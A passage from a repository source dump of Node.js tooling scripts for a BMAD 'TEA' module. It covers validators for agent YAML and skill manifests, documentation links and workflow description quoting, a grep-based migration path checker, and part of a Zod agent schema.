if (DRY_RUN && totalChanges > 0) {
  console.log(`\nRun with --write to apply these changes`);
}

console.log('');
```

## File: `tools/validate-agent-schema.js`
```javascript
/**
 * Agent Schema Validator CLI
 *
 * Scans for agent definitions in src/agents/:
 * - Legacy format: *.agent.yaml (validated against Zod schema)
 * - Native skill format: {name}/bmad-skill-manifest.yaml + SKILL.md
 *
 * Usage: node tools/validate-agent-schema.js [project_root]
 * Exit codes: 0 = success, 1 = validation failures
 *
 * Optional argument:
 *   project_root - Directory to scan (defaults to BMAD repo root)
 */

const { glob } = require('glob');
const yaml = require('yaml');
const fs = require('node:fs');
const path = require('node:path');
const { validateAgentFile } = require('./schema/agent.js');

/**
 * Main validation routine
 * @param {string} [customProjectRoot] - Optional project root to scan (for testing)
 */
async function main(customProjectRoot) {
  console.log('🔍 Scanning for agent files...\n');

  // Determine project root: use custom path if provided, otherwise default to repo root
  const project_root = customProjectRoot || path.join(__dirname, '..');

  // Find all agent files
  // TEA module supports both legacy (*.agent.yaml) and native skill format (*/bmad-skill-manifest.yaml)
  const agentFiles = await glob('src/agents/*.agent.yaml', {
    cwd: project_root,
    absolute: true,
  });

  // Always check for native skill manifests (supports mixed-mode repos)
  const skillManifests = await glob('src/agents/*/bmad-skill-manifest.yaml', {
    cwd: project_root,
    absolute: true,
  });

  // If no legacy agents found, validate native skills or fail
  if (agentFiles.length === 0) {
    if (skillManifests.length > 0) {
      console.log(`Found ${skillManifests.length} native skill manifest(s) (no legacy *.agent.yaml files)\n`);

      const manifestErrors = [];
      for (const manifestPath of skillManifests) {
        const relativePath = path.relative(process.cwd(), manifestPath);
        try {
          const fileContent = fs.readFileSync(manifestPath, 'utf8');
          const manifest = yaml.parse(fileContent);

          const requiredFields = ['type', 'name', 'module', 'canonicalId'];
          const missingFields = requiredFields.filter((f) => !manifest[f]);
          const issues = [];

          if (missingFields.length > 0) {
            issues.push({ message: `Missing required fields: ${missingFields.join(', ')}`, path: [] });
          }

          // Validate type value
          const validTypes = ['agent', 'skill'];
          if (manifest.type && !validTypes.includes(manifest.type)) {
            issues.push({ message: `Invalid type "${manifest.type}". Expected one of: ${validTypes.join(', ')}`, path: [] });
          }

          // Verify SKILL.md exists alongside the manifest
          const skillMdPath = path.join(path.dirname(manifestPath), 'SKILL.md');
          if (!fs.existsSync(skillMdPath)) {
            issues.push({ message: 'Missing SKILL.md file alongside manifest', path: [] });
          }

          if (issues.length > 0) {
            manifestErrors.push({ file: relativePath, issues });
          } else {
            console.log(`✅ ${relativePath}`);
          }
        } catch (error) {
          manifestErrors.push({
            file: relativePath,
            issues: [{ message: `Failed to parse YAML: ${error.message}`, path: [] }],
          });
        }
      }

      if (manifestErrors.length > 0) {
        console.log('\n❌ Validation failed:\n');
        for (const { file, issues } of manifestErrors) {
          console.log(`\n📄 ${file}`);
          for (const issue of issues) {
            console.log(`   Error: ${issue.message}`);
          }
        }
        process.exit(1);
      }

      console.log(`\n✨ All ${skillManifests.length} native skill manifest(s) passed validation!\n`);
      process.exit(0);
    }

    console.log('❌ No agent files found. This likely indicates a configuration error.');
    console.log('   Expected to find *.agent.yaml files or native skill manifests in src/agents/');
    process.exit(1);
  }

  console.log(`Found ${agentFiles.length} agent file(s)\n`);

  const errors = [];

  // Validate each file
  for (const filePath of agentFiles) {
    const relativePath = path.relative(process.cwd(), filePath);

    try {
      const fileContent = fs.readFileSync(filePath, 'utf8');
      const agentData = yaml.parse(fileContent);

      // Convert absolute path to relative src/ path for module detection
      const srcRelativePath = relativePath.startsWith('src/') ? relativePath : path.relative(project_root, filePath).replaceAll('\\', '/');

      const result = validateAgentFile(srcRelativePath, agentData);

      if (result.success) {
        console.log(`✅ ${relativePath}`);
      } else {
        errors.push({
          file: relativePath,
          issues: result.error.issues,
        });
      }
    } catch (error) {
      errors.push({
        file: relativePath,
        issues: [
          {
            code: 'parse_error',
            message: `Failed to parse YAML: ${error.message}`,
            path: [],
          },
        ],
      });
    }
  }

  // Also validate native skill manifests in mixed-mode repos
  if (skillManifests.length > 0) {
    console.log(`\nAlso found ${skillManifests.length} native skill manifest(s)\n`);
    for (const manifestPath of skillManifests) {
      const relativePath = path.relative(process.cwd(), manifestPath);
      try {
        const fileContent = fs.readFileSync(manifestPath, 'utf8');
        const manifest = yaml.parse(fileContent);
        const requiredFields = ['type', 'name', 'module', 'canonicalId'];
        const missingFields = requiredFields.filter((f) => !manifest[f]);
        const issues = [];
        if (missingFields.length > 0) {
          issues.push({ message: `Missing required fields: ${missingFields.join(', ')}`, path: [] });
        }
        const validTypes = ['agent', 'skill'];
        if (manifest.type && !validTypes.includes(manifest.type)) {
          issues.push({ message: `Invalid type "${manifest.type}". Expected one of: ${validTypes.join(', ')}`, path: [] });
        }
        const skillMdPath = path.join(path.dirname(manifestPath), 'SKILL.md');
        if (!fs.existsSync(skillMdPath)) {
          issues.push({ message: 'Missing SKILL.md file alongside manifest', path: [] });
        }
        if (issues.length > 0) {
          errors.push({ file: relativePath, issues });
        } else {
          console.log(`✅ ${relativePath}`);
        }
      } catch (error) {
        errors.push({ file: relativePath, issues: [{ message: `Failed to parse YAML: ${error.message}`, path: [] }] });
      }
    }
  }

  // Report errors
  if (errors.length > 0) {
    console.log('\n❌ Validation failed for the following files:\n');

    for (const { file, issues } of errors) {
      console.log(`\n📄 ${file}`);
      for (const issue of issues) {
        const pathString = issue.path.length > 0 ? issue.path.join('.') : '(root)';
        console.log(`   Path: ${pathString}`);
        console.log(`   Error: ${issue.message}`);
        if (issue.code) {
          console.log(`   Code: ${issue.code}`);
        }
      }
    }

    console.log(`\n\n💥 ${errors.length} file(s) failed validation`);
    process.exit(1);
  }

  const totalCount = agentFiles.length + skillManifests.length;
  console.log(`\n✨ All ${totalCount} agent file(s) passed validation!\n`);
  process.exit(0);
}

// Run with optional command-line argument for project root
const customProjectRoot = process.argv[2];
main(customProjectRoot).catch((error) => {
  console.error('Fatal error:', error);
  process.exit(1);
});
```

## File: `tools/validate-doc-links.js`
```javascript
/**
 * Documentation Link Validator
 *
 * Validates site-relative links in markdown files and attempts to fix broken ones.
 *
 * What it checks:
 * - All site-relative links (starting with /) point to existing .md files
 * - Anchor links (#section) point to valid headings
 *
 * What it fixes:
 * - Broken links where the target file can be found elsewhere in /docs
 *
 * Usage:
 *   node tools/validate-doc-links.js           # Dry run (validate and show issues)
 *   node tools/validate-doc-links.js --write   # Fix auto-fixable issues
 */

const fs = require('node:fs');
const path = require('node:path');

const DOCS_ROOT = path.resolve(__dirname, '../docs');
const DRY_RUN = !process.argv.includes('--write');

// Regex to match markdown links with site-relative paths
const LINK_REGEX = /\[([^\]]*)\]\((\/[^)]+)\)/g;

// File extensions that are static assets, not markdown docs
const STATIC_ASSET_EXTENSIONS = ['.zip', '.txt', '.pdf', '.png', '.jpg', '.jpeg', '.gif', '.svg', '.webp', '.ico'];

// Custom Astro page routes (not part of the docs content collection)
const CUSTOM_PAGE_ROUTES = new Set([]);

// Regex to extract headings for anchor validation
const HEADING_PATTERN = /^#{1,6}\s+(.+)$/gm;

/**
 * Get all markdown files in docs directory, excluding _* directories/files
 */
function getMarkdownFiles(dir) {
  const files = [];

  function walk(currentDir) {
    const entries = fs.readdirSync(currentDir, { withFileTypes: true });

    for (const entry of entries) {
      const fullPath = path.join(currentDir, entry.name);

      if (entry.name.startsWith('_')) {
        continue;
      }

      if (entry.isDirectory()) {
        walk(fullPath);
      } else if (entry.isFile() && entry.name.endsWith('.md')) {
        files.push(fullPath);
      }
    }
  }

  walk(dir);
  return files;
}

/**
 * Strip fenced code blocks from content
 */
function stripCodeBlocks(content) {
  return content.replaceAll(/```[\s\S]*?```/g, '');
}

/**
 * Convert a heading to its anchor slug
 */
function headingToAnchor(heading) {
  return heading
    .toLowerCase()
    .replaceAll(/[\u{1F300}-\u{1F9FF}]/gu, '') // Remove emojis
    .replaceAll(/[^\w\s-]/g, '') // Remove special chars
    .replaceAll(/\s+/g, '-') // Spaces to hyphens
    .replaceAll(/-+/g, '-') // Collapse hyphens
    .replaceAll(/^-+|-+$/g, ''); // Trim hyphens
}

/**
 * Extract anchor slugs from a markdown file
 */
function extractAnchors(content) {
  const anchors = new Set();
  let match;

  HEADING_PATTERN.lastIndex = 0;
  while ((match = HEADING_PATTERN.exec(content)) !== null) {
    const headingText = match[1]
      .trim()
      .replaceAll(/`([^`]+)`/g, '$1')
      .replaceAll(/\*\*([^*]+)\*\*/g, '$1')
      .replaceAll(/\*([^*]+)\*/g, '$1')
      .replaceAll(/\[([^\]]+)\]\([^)]+\)/g, '$1')
      .trim();
    anchors.add(headingToAnchor(headingText));
  }

  return anchors;
}

/**
 * Resolve a site-relative link to a file path
 * /brain/knowledge/docs_legacy/how-to/installation/install-bmad.md -> brain/knowledge/docs_legacy/how-to/installation/install-bmad.md
 * /how-to/installation/install-bmad/ -> brain/knowledge/docs_legacy/how-to/installation/install-bmad.md or .../index.md
 */
function resolveLink(siteRelativePath) {
  // Strip anchor and query
  let checkPath = siteRelativePath.split('#')[0].split('?')[0];

  // Strip /brain/knowledge/docs_legacy/ prefix if present (repo-relative links)
  if (checkPath.startsWith('/brain/knowledge/docs_legacy/')) {
    checkPath = checkPath.slice(5); // Remove '/docs' but keep leading '/'
  }

  if (checkPath.endsWith('/')) {
    // Could be file.md or directory/index.md
    const asFile = path.join(DOCS_ROOT, checkPath.slice(0, -1) + '.md');
    const asIndex = path.join(DOCS_ROOT, checkPath, 'index.md');

    if (fs.existsSync(asFile)) return asFile;
    if (fs.existsSync(asIndex)) return asIndex;
    return null;
  }

  // Direct path (e.g., /path/file.md)
  const direct = path.join(DOCS_ROOT, checkPath);
  if (fs.existsSync(direct)) return direct;

  // Try with .md extension
  const withMd = direct + '.md';
  if (fs.existsSync(withMd)) return withMd;

  return null;
}

/**
 * Search for a file with directory context
 */
function findFileWithContext(brokenPath) {
  // Extract filename and parent directory from the broken path
  // e.g., /tutorials/getting-started/foo/ -> parent: getting-started, file: foo.md
  const cleanPath = brokenPath.replace(/\/$/, '').replace(/^\//, '');
  const parts = cleanPath.split('/');
  const fileName = parts.at(-1) + '.md';
  const parentDir = parts.length > 1 ? parts.at(-2) : null;

  const allFiles = getMarkdownFiles(DOCS_ROOT);
  const matches = [];

  for (const file of allFiles) {
    const fileBaseName = path.basename(file);
    const fileParentDir = path.basename(path.dirname(file));

    // Exact filename match with parent directory context
    if (fileBaseName === fileName) {
      if (parentDir && fileParentDir === parentDir) {
        // Strong match: both filename and parent dir match
        return [file];
      }
      matches.push(file);
    }

    // Also check for index.md in a matching directory
    if (fileBaseName === 'index.md' && fileParentDir === fileName.replace('.md', '')) {
      matches.push(file);
    }
  }

  return matches;
}

/**
 * Convert absolute file path to site-relative URL
 */
function fileToSiteRelative(filePath) {
  let relative = '/' + path.relative(DOCS_ROOT, filePath);
  relative = relative.split(path.sep).join('/');

  if (relative.endsWith('/index.md')) {
    return relative.replace(/\/index\.md$/, '/');
  }
  return relative.replace(/\.md$/, '/');
}

/**
 * Process a single file and find issues
 */
function processFile(filePath) {
  const content = fs.readFileSync(filePath, 'utf-8');
  const strippedContent = stripCodeBlocks(content);
  const issues = [];

  let match;
  LINK_REGEX.lastIndex = 0;

  while ((match = LINK_REGEX.exec(strippedContent)) !== null) {
    const linkText = match[1];
    const href = match[2];

    // Extract path and anchor
    const hashIndex = href.indexOf('#');
    const linkPath = hashIndex === -1 ? href : href.slice(0, hashIndex);
    const anchor = hashIndex === -1 ? null : href.slice(hashIndex + 1);

    // Skip static asset links (zip, txt, images, etc.)
    const linkLower = linkPath.toLowerCase();
    if (STATIC_ASSET_EXTENSIONS.some((ext) => linkLower.endsWith(ext))) {
      continue;
    }

    // Skip custom Astro page routes
    if (CUSTOM_PAGE_ROUTES.has(linkPath)) {
      continue;
    }

    // Validate the link target exists
    const targetFile = resolveLink(linkPath);

    if (!targetFile) {
      // Link is broken - try to find the file
      const candidates = findFileWithContext(linkPath);

      const issue = {
        type: 'broken-link',
        linkText,
        href,
        linkPath,
        fullMatch: match[0],
      };

      if (candidates.length === 1) {
        issue.status = 'auto-fixable';
        issue.suggestedFix = fileToSiteRelative(candidates[0]) + (anchor ? '#' + anchor : '');
        issue.foundAt = path.relative(DOCS_ROOT, candidates[0]);
      } else if (candidates.length > 1) {
        issue.status = 'needs-review';
        issue.candidates = candidates.map((c) => path.relative(DOCS_ROOT, c));
      } else {
        issue.status = 'manual-check';
      }

      issues.push(issue);
      continue;
    }

    // Validate anchor if present
    if (anchor) {
      const targetContent = fs.readFileSync(targetFile, 'utf-8');
      const anchors = extractAnchors(targetContent);

      if (!anchors.has(anchor)) {
        issues.push({
          type: 'broken-anchor',
          linkText,
          href,
          anchor,
          status: 'manual-check',
          message: `Anchor "#${anchor}" not found`,
        });
      }
    }
  }

  return { content, issues };
}

/**
 * Apply fixes to file content
 */
function applyFixes(content, issues) {
  let updated = content;

  for (const issue of issues) {
    if (issue.status === 'auto-fixable' && issue.suggestedFix) {
      const oldLink = `[${issue.linkText}](${issue.href})`;
      const newLink = `[${issue.linkText}](${issue.suggestedFix})`;
      updated = updated.replaceAll(oldLink, newLink);
    }
  }

  return updated;
}

// Main execution
console.log(`\nValidating docs in: ${DOCS_ROOT}`);
console.log(`Mode: ${DRY_RUN ? 'DRY RUN (use --write to fix)' : 'WRITE MODE'}\n`);

const files = getMarkdownFiles(DOCS_ROOT);
console.log(`Found ${files.length} markdown files\n`);

let totalIssues = 0;
let autoFixable = 0;
let needsReview = 0;
let manualCheck = 0;
let filesWithIssues = 0;

const allIssues = [];

for (const filePath of files) {
  const relativePath = path.relative(DOCS_ROOT, filePath);
  const { content, issues } = processFile(filePath);

  if (issues.length > 0) {
    filesWithIssues++;
    totalIssues += issues.length;

    console.log(`\n${relativePath}`);

    for (const issue of issues) {
      if (issue.status === 'auto-fixable') {
        autoFixable++;
        console.log(`  [FIX] ${issue.href}`);
        console.log(`     -> ${issue.suggestedFix}`);
      } else if (issue.status === 'needs-review') {
        needsReview++;
        console.log(`  [REVIEW] ${issue.href}`);
        console.log(`     Multiple matches found:`);
        for (const candidate of issue.candidates) {
          console.log(`       - ${candidate}`);
        }
      } else if (issue.type === 'broken-anchor') {
        manualCheck++;
        console.log(`  [MANUAL] ${issue.href}`);
        console.log(`     ${issue.message}`);
      } else {
        manualCheck++;
        console.log(`  [MANUAL] ${issue.href}`);
        console.log(`     File not found anywhere - may need to remove link`);
      }

      allIssues.push({ file: relativePath, ...issue });
    }

    // Apply fixes if not dry run
    if (!DRY_RUN) {
      const fixableIssues = issues.filter((i) => i.status === 'auto-fixable');
      if (fixableIssues.length > 0) {
        const updated = applyFixes(content, fixableIssues);
        fs.writeFileSync(filePath, updated, 'utf-8');
      }
    }
  }
}

console.log(`\n${'─'.repeat(60)}`);
console.log(`\nSummary:`);
console.log(`   Files scanned: ${files.length}`);
console.log(`   Files with issues: ${filesWithIssues}`);
console.log(`   Total issues: ${totalIssues}`);

if (totalIssues > 0) {
  console.log(`\n   Breakdown:`);
  console.log(`     Auto-fixable:  ${autoFixable}`);
  console.log(`     Needs review:  ${needsReview}`);
  console.log(`     Manual check:  ${manualCheck}`);
}

if (totalIssues === 0) {
  console.log(`\n   All links valid!`);
} else if (DRY_RUN && autoFixable > 0) {
  console.log(`\nRun with --write to auto-fix ${autoFixable} issue(s)`);
}

console.log('');

process.exit(totalIssues > 0 ? 1 : 0);
```

## File: `tools/validate-tea-workflow-descriptions.js`
```javascript
/**
 * Validate TEA workflow description quote style for Gemini compatibility.
 *
 * Rules for TEA workflow definitions under src/workflows/testarch/<workflow>/workflow.yaml
 * and teach-me-testing frontmatter in src/workflows/testarch/bmad-teach-me-testing/workflow.md:
 * - `description:` must be a single-line YAML scalar on one line
 * - the raw YAML scalar must be wrapped in single quotes
 * - parsed description text must not contain single-quote characters
 *   (use double quotes for examples, e.g. "quote here")
 *
 * Usage: node tools/validate-tea-workflow-descriptions.js [project_root]
 * Exit codes: 0 = success, 1 = validation failures
 */

const fs = require('node:fs');
const path = require('node:path');
const { glob } = require('glob');
const yaml = require('yaml');

/**
 * @param {string} filePath
 * @param {string} projectRoot
 * @returns {string[]}
 */
function validateFile(filePath, projectRoot) {
  const errors = [];
  const relativePath = path.relative(projectRoot, filePath).replaceAll('\\', '/');
  let content;
  try {
    content = fs.readFileSync(filePath, 'utf8');
  } catch (error) {
    return [`${relativePath}: Failed to read file: ${error.message}`];
  }
  let yamlDoc = content;
  if (filePath.endsWith('.md')) {
    const frontmatterMatch = content.match(/^---\n([\s\S]*?)\n---(?:\n|$)/);
    if (!frontmatterMatch) {
      return [`${relativePath}: Missing YAML frontmatter block`];
    }
    yamlDoc = frontmatterMatch[1];
  }
  /** @type {string | undefined} */
  let parsedDescription;

  try {
    const parsed = yaml.parse(yamlDoc);
    if (!parsed || typeof parsed.description !== 'string') {
      errors.push('YAML parsed but `description` is missing or not a string');
    } else {
      parsedDescription = parsed.description;
    }
  } catch (error) {
    errors.push(`YAML parse error: ${error.message}`);
    return [`${relativePath}: ${errors[0]}`];
  }

  const descriptionMatch = yamlDoc.match(/^\s*description:\s*(?:'((?:''|[^'])*)'|"((?:\\"|[^"])*)")\s*(?:#.*)?$/m);
  if (descriptionMatch) {
    const singleQuotedInner = descriptionMatch[1];
    const doubleQuotedInner = descriptionMatch[2];
    const quote = singleQuotedInner === undefined ? '"' : "'";

    if (quote !== "'") {
      errors.push('`description:` value must be wrapped in single quotes');
    }
  } else {
    if (/^\s*description:\s*/m.test(yamlDoc)) {
      errors.push('`description:` value must be wrapped in single quotes');
    } else {
      errors.push('Missing single-line `description:` field');
    }
  }

  if (typeof parsedDescription === 'string' && parsedDescription.includes("'")) {
    errors.push('Parsed `description` contains a single quote character; use double quotes for examples');
  }

  return errors.map((error) => `${relativePath}: ${error}`);
}

async function main(customProjectRoot) {
  const projectRoot = customProjectRoot || path.join(__dirname, '..');
  const yamlFiles = await glob('src/workflows/testarch/*/workflow.yaml', {
    cwd: projectRoot,
    absolute: true,
  });
  const mdFiles = await glob('src/workflows/testarch/bmad-teach-me-testing/workflow.md', {
    cwd: projectRoot,
    absolute: true,
  });
  const files = [...yamlFiles, ...mdFiles];

  if (files.length === 0) {
    console.error('No TEA workflow definitions found under src/workflows/testarch/');
    process.exit(1);
  }

  /** @type {string[]} */
  const failures = [];

  for (const filePath of files.sort()) {
    failures.push(...validateFile(filePath, projectRoot));
  }

  if (failures.length > 0) {
    console.error('TEA workflow description quote validation failed:\n');
    for (const failure of failures) {
      console.error(`- ${failure}`);
    }
    console.error('\nExpected format example:');
    console.error(`description: 'Generate traceability, example "quote here"'`);
    process.exit(1);
  }

  console.log(`Validated TEA workflow description quoting in ${files.length} file(s).`);
}

const customProjectRoot = process.argv[2];
main(customProjectRoot).catch((error) => {
  console.error('Fatal error:', error);
  process.exit(1);
});
```

## File: `tools/verify-paths.js`
```javascript
/**
 * Path Verification Script for TEA Module Migration
 *
 * This script searches for any remaining BMM module references
 * that should have been replaced with TEA module references.
 *
 * Usage: node tools/verify-paths.js
 */

const { execSync } = require('node:child_process');
const path = require('node:path');

const REPO_ROOT = path.resolve(__dirname, '..');

// Color codes for terminal output
const RED = '\u001B[31m';
const GREEN = '\u001B[32m';
const YELLOW = '\u001B[33m';
const RESET = '\u001B[0m';

let issuesFound = 0;

function log(message, color = RESET) {
  console.log(`${color}${message}${RESET}`);
}

function checkPattern(description, command) {
  log(`\n🔍 Checking: ${description}`, YELLOW);

  try {
    const result = execSync(command, {
      cwd: REPO_ROOT,
      encoding: 'utf8',
      stdio: ['pipe', 'pipe', 'pipe'],
    });

    if (result.trim()) {
      log(`❌ FOUND ISSUES:`, RED);
      console.log(result);
      issuesFound++;
      return false;
    } else {
      log(`✅ No issues found`, GREEN);
      return true;
    }
  } catch (error) {
    // grep returns exit code 1 when no matches found (this is success for us)
    if (error.status === 1) {
      log(`✅ No issues found`, GREEN);
      return true;
    }
    log(`⚠️  Error running check: ${error.message}`, RED);
    return false;
  }
}

log('═══════════════════════════════════════════════════════════', GREEN);
log('   TEA Module Migration - Path Verification Script', GREEN);
log('═══════════════════════════════════════════════════════════', GREEN);

// Check 1: Absolute BMM path references
checkPattern('Absolute BMM path references (/_bmad/bmm/)', 'grep -r "/_bmad/bmm/" src/ || true');

// Check 2: Relative BMM path references
checkPattern('Relative BMM path references (_bmad/bmm/)', 'grep -r "_bmad/bmm/" src/ | grep -v "/_bmad/bmm/" || true');

// Check 3: Alternative BMM path references
checkPattern('Alternative BMM path references (bmad/bmm/)', 'grep -r "bmad/bmm/" src/ | grep -v "_bmad/bmm/" || true');

// Check 4: Module references in YAML
checkPattern('Module references (module: bmm)', 'grep -r "module: bmm" src/ || true');

// Check 5: Command namespace in docs
checkPattern('BMM command namespace in docs (/bmad:bmm:)', 'grep -r "/bmad:bmm:" brain/knowledge/docs_legacy/ || true');

// Check 6: CSV files
checkPattern('BMM references in CSV files', String.raw`find src/ -name "*.csv" -exec grep -l "bmm" {} \; || true`);

// Check 7: Verify TEA paths are present
log(`\n🔍 Checking: TEA paths are correctly used`, YELLOW);
const teaCount = execSync('grep -r "_bmad/tea/" src/ | wc -l', { cwd: REPO_ROOT, encoding: 'utf8' }).trim();

if (parseInt(teaCount) > 0) {
  log(`✅ Found ${teaCount} TEA path references (expected)`, GREEN);
} else {
  log(`❌ No TEA path references found (unexpected)`, RED);
  issuesFound++;
}

// Summary
log('\n═══════════════════════════════════════════════════════════', GREEN);
if (issuesFound === 0) {
  log('✅ ALL CHECKS PASSED - No BMM references found', GREEN);
  log('✅ Path migration verification successful!', GREEN);
  process.exit(0);
} else {
  log(`❌ VERIFICATION FAILED - ${issuesFound} issue(s) found`, RED);
  log('Please review the output above and fix the issues', RED);
  process.exit(1);
}
```

## File: `tools/schema/agent.js`
```javascript
// Zod schema definition for *.agent.yaml files
const assert = require('node:assert');
const { z } = require('zod');

const COMMAND_TARGET_KEYS = ['workflow', 'validate-workflow', 'exec', 'action', 'tmpl', 'data'];
const TRIGGER_PATTERN = /^[a-z0-9]+(?:-[a-z0-9]+)*$/;
const COMPOUND_TRIGGER_PATTERN = /^([A-Z]{1,3}) or fuzzy match on ([a-z0-9]+(?:-[a-z0-9]+)*)$/;

/**
 * Derive the expected shortcut from a kebab-case trigger.
 * - Single word: first letter (e.g., "help" → "H")
 * - Multi-word: first letter of first two words (e.g., "tech-spec" → "TS")
 * @param {string} kebabTrigger The kebab-case trigger name.
 * @returns {string} The expected uppercase shortcut.
 */
function deriveShortcutFromKebab(kebabTrigger) {
  const words = kebabTrigger.split('-');
  if (words.length === 1) {
    return words[0][0].toUpperCase();
  }
  return (words[0][0] + words[1][0]).toUpperCase();
}

/**
 * Parse and validate a compound trigger string.
 * Format: "<SHORTCUT> or fuzzy match on <kebab-case>"
 * @param {string} triggerValue The trigger string to parse.
 * @returns {{ valid: boolean, shortcut?: string, kebabTrigger?: string, error?: string }}
 */
function parseCompoundTrigger(triggerValue) {
  const match = COMPOUND_TRIGGER_PATTERN.exec(triggerValue);
  if (!match) {
    return { valid: false, error: 'invalid compound trigger format' };
  }

  const [, shortcut, kebabTrigger] = match;

  return { valid: true, shortcut, kebabTrigger };
}

// Public API ---------------------------------------------------------------

/**
 * Validate an agent YAML payload against the schema derived from its file location.
 * Exposed as the single public entry point, so callers do not reach into schema internals.
 *
 * @param {string} filePath Path to the agent file (used to infer module scope).
 * @param {unknown} agentYaml Parsed YAML content.
 * @returns {import('zod').SafeParseReturnType<unknown, unknown>} SafeParse result.
 */
function validateAgentFile(filePath, agentYaml) {
  const expectedModule = deriveModuleFromPath(filePath);
  const schema = agentSchema({ module: expectedModule });
  return schema.safeParse(agentYaml);
}

module.exports = { validateAgentFile };

// Internal helpers ---------------------------------------------------------

/**
 * Build a Zod schema for validating a single agent definition.
 * The schema is generated per call so module-scoped agents can pass their expected
 * module slug while core agents leave it undefined.
 *
 * @param {Object} [options]
 * @param {string|null|undefined} [options.module] Module slug for module agents; omit or null for core agents.
 * @returns {import('zod').ZodSchema} Configured Zod schema instance.
 */
function agentSchema(options = {}) {
  const expectedModule = normalizeModuleOption(options.module);

  return (
    z
      .object({
        agent: buildAgentSchema(expectedModule),
      })
      .strict()
      // Refinement: enforce trigger format and uniqueness rules after structural checks.
      .superRefine((value, ctx) => {
        const seenTriggers = new Set();

        let index = 0;
        for (const item of value.agent.menu) {
          // Handle legacy format with trigger field
          if (item.trigger) {
            const triggerValue = item.trigger;
            let canonicalTrigger = triggerValue;

            // Check if it's a compound trigger (contains " or ")
            if (triggerValue.includes(' or ')) {
              const result = parseCompoundTrigger(triggerValue);
              if (!result.valid) {
                ctx.addIssue({
                  code: 'custom',
                  path: ['agent', 'menu', index, 'trigger'],
                  message: `agent.menu[].trigger compound format error: ${result.error}`,
                });
                return;
              }

              // Validate that shortcut matches description brackets
              const descriptionMatch = item.description?.match(/^\[([A-Z]{1,3})\]/);
              if (!descriptionMatch) {
                ctx.addIssue({
                  code: 'custom',
                  path: ['agent', 'menu', index, 'description'],
                  message: `agent.menu[].description must start with [SHORTCUT] where SHORTCUT matches the trigger shortcut "${result.shortcut}"`,
                });
                return;
              }

              const descriptionShortcut = descriptionMatch[1];
              if (descriptionShortcut !== result.shortcut) {
                ctx.addIssue({
                  code: 'custom',
                  path: ['agent', 'menu', index, 'description'],
                  message: `agent.menu[].description shortcut "[${descriptionShortcut}]" must match trigger shortcut "${result.shortcut}"`,
                });
                return;
              }

              canonicalTrigger = result.kebabTrigger;
            } else if (!TRIGGER_PATTERN.test(triggerValue)) {
              ctx.addIssue({
                code: 'custom',
                path: ['agent', 'menu', index, 'trigger'],
                message: 'agent.menu[].trigger must be kebab-case (lowercase words separated by hyphen)',
              });
              return;
            }

            if (seenTriggers.has(canonicalTrigger)) {
              ctx.addIssue({
                code: 'custom',
                path: ['agent', 'menu', index, 'trigger'],
                message: `agent.menu[].trigger duplicates "${canonicalTrigger}" within the same agent`,
              });
              return;
            }

            seenTriggers.add(canonicalTrigger);
          }
          // Handle multi format with triggers array (new format)
          else if (item.triggers && Array.isArray(item.triggers)) {
            for (const [triggerIndex, triggerItem] of item.triggers.entries()) {
              let triggerName = null;

              // Extract trigger name from all three formats
              if (triggerItem.trigger) {
                // Format 1: Simple flat format with trigger field
                triggerName = triggerItem.trigger;
              } else {
                // Format 2a or 2b: Object-key format
                const keys = Object.keys(triggerItem);
                if (keys.length === 1 && keys[0] !== 'trigger') {
                  triggerName = keys[0];
                }
              }

              if (triggerName) {
                if (!TRIGGER_PATTERN.test(triggerName)) {
                  ctx.addIssue({
                    code: 'custom',
                    path: ['agent', 'menu', index, 'triggers', triggerIndex],
                    message: `agent.menu[].triggers[] must be kebab-case (lowercase words separated by hyphen) - got "${triggerName}"`,
                  });
                  return;
                }

                if (seenTriggers.has(triggerName)) {
                  ctx.addIssue({
                    code: 'custom',
                    path: ['agent', 'menu', index, 'triggers', triggerIndex],
                    message: `agent.menu[].triggers[] duplicates "${triggerName}" within the same agent`,
                  });
                  return;
                }

                seenTriggers.add(triggerName);
              }
            }
          }

          index += 1;
        }
      })
      // Refinement: suggest conversational_knowledge when discussion is true
      .superRefine((value, ctx) => {
        if (value.agent.discussion === true && !value.agent.conversational_knowledge) {
          ctx.addIssue({
            code: 'custom',
            path: ['agent', 'conversational_knowledge'],
            message: 'It is recommended to include conversational_knowledge when discussion is true',
          });
        }
      })
  );
}

/**
 * Assemble the full agent schema using the module expectation provided by the caller.
 * @param {string|null} expectedModule Trimmed module slug or null for core agents.
 */
function buildAgentSchema(expectedModule) {
  return z
    .object({
      metadata: buildMetadataSchema(expectedModule),
      persona: buildPersonaSchema(),
      critical_actions: z.array(createNonEmptyString('agent.critical_actions[]')).optional(),
      menu: z.array(buildMenuItemSchema()).min(1, { message: 'agent.menu must include at least one entry' }),
      prompts: z.array(buildPromptSchema()).optional(),
      webskip: z.boolean().optional(),
      discussion: z.boolean().optional(),
      conversational_knowledge: z.array(z.object({}).passthrough()).min(1).optional(),
    })
    .strict();
}

/**
 * Validate metadata shape.
 * @param {string|null} expectedModule Trimmed module slug or null when core agent metadata is expected.
 * Note: Module field is optional and can be any value - no validation against path.
 */
function buildMetadataSchema(expectedModule) {
  const schemaShape = {
    id: createNonEmptyString('agent.metadata.id'),
    name: createNonEmptyString('agent.metadata.name'),
    title: createNonEmptyString('agent.metadata.title'),
    icon: createNonEmptyString('agent.metadata.icon'),
    module: createNonEmptyString('agent.metadata.module').optional(),
    hasSidecar: z.boolean(),
  };

  return z.object(schemaShape).strict();
}

function buildPersonaSchema() {
  return z
    .object({
      role: createNonEmptyString('agent.persona.role'),
      identity: createNonEmptyString('agent.persona.identity'),
      communication_style: createNonEmptyString('agent.persona.communication_style'),
      principles: z.union([
        createNonEmptyString('agent.persona.principles'),
        z
          .array(createNonEmptyString('agent.persona.principles[]'))
          .min(1, { message: 'agent.persona.principles must include at least one entry' }),
      ]),
    })
    .strict();
}

function buildPromptSchema() {
  return z
    .object({
      id: createNonEmptyString('agent.prompts[].id'),
      content: z.string().refine((value) => value.trim().length > 0, {
        message: 'agent.prompts[].content must be a non-empty string',
      }),
      description: createNonEmptyString('agent.prompts[].description').optional(),
    })
    .strict();
}

/**
 * Schema for individual menu entries ensuring they are actionable.
 * Supports both legacy format and new multi format.
 */
function buildMenuItemSchema() {
  // Legacy menu item format
  const legacyMenuItemSchema = z
    .object({
      trigger: createNonEmptyString('agent.menu[].trigger'),
      description: createNonEmptyString('agent.menu[].description'),
      workflow: createNonEmptyString('agent.menu[].workflow').optional(),
      'workflow-install': createNonEmptyString('agent.menu[].workflow-install').optional(),
      'validate-workflow': createNonEmptyString('agent.menu[].validate-workflow').optional(),
